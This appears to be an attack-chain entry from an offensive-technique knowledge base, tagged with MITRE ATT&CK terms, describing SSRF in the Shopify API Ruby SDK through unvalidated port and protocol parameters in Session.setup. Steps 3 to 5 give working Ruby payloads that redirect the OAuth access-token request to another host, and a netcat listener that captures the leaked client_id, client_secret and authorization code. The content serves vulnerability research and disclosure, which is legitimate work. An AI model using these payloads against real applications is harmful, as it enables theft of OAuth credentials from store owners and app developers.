

---
tags:
  - ssrf
  - shopify
  - ruby-sdk
  - credential-leak
  - oauth
type: attack_chain
tools:
  - '[[tools/pry]]'
  - '[[tools/netcat]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Ruby
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Analyze-Shopify-API-Session-Setup]]'
  - '[[procedures/Test-Session-Setup-with-Port-Parameter]]'
  - '[[procedures/Exploit-Port-Parameter-for-SSRF]]'
  - '[[procedures/Capture-Exfiltrated-Request-with-Netcat]]'
  - '[[procedures/Exploit-Protocol-Parameter-for-SSRF]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Steal Application Access Token]]'
updated_at: '2025-12-14T17:32:28.700Z'
description: >-
  Multi-stage exploitation of improper input validation in Shopify API Ruby
  SDK's Session.setup method, enabling SSRF attacks that leak OAuth credentials
  like client secrets to attacker-controlled servers.
skill_level: intermediate
impact_level: high
id: 7242cf77-6945-42ed-bcc5-95be96a096f1
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Steal Application Access Token]]'
---
---

# SSRF in Shopify API Ruby SDK via Unvalidated Session Setup Parameters Leading to Credential Leakage

Multi-stage attack chain demonstrating exploitation of input validation flaws in the Shopify API Ruby SDK to perform SSRF and exfiltrate sensitive OAuth credentials.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/pry]]
- [[tools/netcat]]

### Target Environment

- Ruby environment with Shopify API SDK installed
- Access to pry REPL for interactive testing
- Network access to listen on local ports (e.g., 443)

### Initial Access Requirements

- Installed Shopify API Ruby gem
- No specific credentials needed for local testing, but real exploitation requires untrusted input in session setup

## Detailed Attack Procedures

### Step 1: Code Analysis
procedure: [[procedures/Analyze-Shopify-API-Session-Setup]]

**Objective**: Review the SDK code to identify input validation flaws in Session.setup and related methods.

**Instructions**: Examine the prepare_url method in ShopifyAPI::Session, which appends unvalidated port values to the shop URL without sanitization. Also review access_token_request, which re-parses the URL using URI.parse, allowing host injection via tricks like '@host' in port.

**Expected Output**: Identification of vulnerabilities in port and protocol handling leading to SSRF.

**Success Indicators**:
- Flaws in prepare_url and access_token_request confirmed
- Potential for arbitrary host injection noted

### Step 2: Test Session Setup with Port Parameter
procedure: [[procedures/Test-Session-Setup-with-Port-Parameter]]

**Objective**: Verify how the port parameter is appended to the session URL without validation.

**Instructions**: Load the Shopify API gem using [[commands/load-shopify-api-gem]] and set up a session with a benign port value:

```ruby
require 'shopify_api'
ShopifyAPI::Session.setup port: '80', secret: ''
session = ShopifyAPI::Session.new('test.myshopify.com')
```

Observe the resulting session URL.

**Expected Output**: Session URL becomes 'test.myshopify.com:80', confirming direct port appending.

**Success Indicators**:
- URL modification observed
- No validation errors raised

### Step 3: Exploit Port Parameter for SSRF
procedure: [[procedures/Exploit-Port-Parameter-for-SSRF]]

**Objective**: Inject malicious port value to redirect requests to an attacker-controlled host, leaking credentials.

**Instructions**: Set up the session with a malicious port using [[commands/setup-session-malicious-port]]:

```ruby
require 'shopify_api'
ShopifyAPI::Session.setup protocol:'https',secret:'',port:'@127.0.0.1/?'
session = ShopifyAPI::Session.new('some-shop.myshopify.com')
access_token = session.request_token({'hmac'=>'d54d830d05601f0b4247f654e4c57b51318be655f40c7a7119141c98a23f6815','timestamp':'2000000000'})
```

This triggers a POST to the injected host with client_id, client_secret, and code.

**Expected Output**: POST request sent to '127.0.0.1:443/admin/oauth/access_token' with leaked data.

**Success Indicators**:
- Request redirected to localhost
- Sensitive parameters in POST body

### Step 4: Capture Exfiltrated Request with Netcat
procedure: [[procedures/Capture-Exfiltrated-Request-with-Netcat]]

**Objective**: Intercept and verify the SSRF request to confirm leakage.

**Instructions**: Listen on the target port using [[commands/netcat-listen-port-443]]:

```bash
nc -l -n -vv -p 443
```

Run the exploitation step concurrently to capture the incoming request.

**Expected Output**: Captured POST request with form data including client_id, client_secret, and code.

**Success Indicators**:
- Incoming connection on port 443
- Leaked parameters visible in POST body

### Step 5: Exploit Protocol Parameter for SSRF
procedure: [[procedures/Exploit-Protocol-Parameter-for-SSRF]]

**Objective**: Use protocol injection as an alternative to override the full URI and cause SSRF.

**Instructions**: Set up the session with malicious protocol using [[commands/setup-session-malicious-protocol]]:

```ruby
require 'shopify_api'
ShopifyAPI::Session.setup protocol:'https://127.0.0.1/?',secret:''
session = ShopifyAPI::Session.new('some-shop.myshopify.com')
access_token = session.request_token({'hmac'=>'d54d830d05601f0b4247f654e4c57b51318be655f40c7a7119141c98a23f6815','timestamp':'2000000000'})
```

**Expected Output**: POST request to '127.0.0.1/?/admin/oauth/access_token' with leaked data.

**Success Indicators**:
- Alternative injection path successful
- Similar leakage confirmed

## Attack Chain Summary

### Key Achievements

1. Identified lack of input validation in Session.setup for port and protocol
2. Demonstrated SSRF redirection to localhost via URL parsing tricks
3. Captured and verified exfiltration of OAuth client secrets and codes

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Steal Application Access Token]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
